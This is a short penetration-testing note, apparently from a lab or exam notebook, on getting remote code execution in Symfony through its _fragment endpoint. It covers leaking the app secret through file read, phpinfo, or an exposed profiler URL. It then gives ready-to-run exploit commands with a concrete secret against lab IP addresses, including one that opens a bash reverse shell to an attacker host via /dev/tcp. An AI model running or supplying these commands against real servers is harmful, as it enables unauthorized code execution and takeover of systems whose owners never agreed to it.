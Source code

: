# Symfony

Symfony is based on PHP. You can get arbitrary code execution if you have the secret. It is often a default value. This script will help brute force common secrets, or if you have it, to use it for code execution.

Here are some of the other vulnerabilities from Synk

[symfony/symfony vulnerabilities | Snyk](https://security.snyk.io/package/composer/symfony%2Fsymfony)

Also file disclosure on exploitdb

[https://www.exploit-db.com/exploits/18560](https://www.exploit-db.com/exploits/18560)

And more info on hacktricks

[Symfony](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/symphony)

# Finding the secret

If you have LFI or otherwise file read, check `app/config/parameters.yml` and `.env` for the secret. 

************************************************************************Keep in mind that HackTricks explains some easy ways to find the secret.************************************************************************

Check phpinfo

![Untitled](Symfony%2071289a32f1b844b0a7dbb8622a9e2e40/Untitled.png)

It could be there if the environmental variables show.

An alternative is visiting [`http://192.168.126.233/app_dev.php/_profiler/open?file=app/config/parameters.yml`](http://192.168.126.233/app_dev.php/_profiler/open?file=app/config/parameters.yml) to expose the secret

![Untitled](Symfony%2071289a32f1b844b0a7dbb8622a9e2e40/Untitled%201.png)

## Exploitation

Once you have the secret, you can exploit the rce with this command.

```jsx
python secret_fragment_exploit.py -s "48a8538e6260789558f0dfe29861c05b" 'http://192.168.126.233/_fragment' --method 2 -f system --parameters 'id' --algo 'sha256' --internal-url 'http://192.168.126.233/_fragment'
```

![Untitled](Symfony%2071289a32f1b844b0a7dbb8622a9e2e40/Untitled%202.png)

Copy the link and visit it in your browser to execute the code

![Untitled](Symfony%2071289a32f1b844b0a7dbb8622a9e2e40/Untitled%203.png)

You can execute this one for a shell 

```jsx
python secret_fragment_exploit.py -s "48a8538e6260789558f0dfe29861c05b" 'http://192.168.126.233/_fragment' --method 2 -f system --parameters 'bash -c "bash -i >& /dev/tcp/192.168.49.126/80 0>&1"' --algo 'sha256' --internal-url 'http://192.168.126.233/_fragment'
```